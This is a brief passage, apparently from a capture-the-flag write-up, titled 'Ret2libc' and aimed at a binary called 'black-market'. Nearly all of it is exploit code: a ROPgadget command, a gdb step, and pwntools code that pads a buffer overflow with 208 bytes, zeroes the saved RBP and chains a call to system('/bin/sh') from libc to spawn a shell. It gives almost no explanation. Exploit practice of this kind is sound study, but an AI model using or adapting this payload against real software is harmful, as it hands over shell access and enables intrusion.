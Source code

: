 ### Ret2libc

---

```py
ROPgadget --binary ./black-market
gdb> got
```

```py
rop = ROP(libc) #libc address
rop.system(next(libc.search(b'/bin/sh\x00')))
pld = flat(
b'A'*208,
p64(0), # saved RBP
rop.chain()
)
```

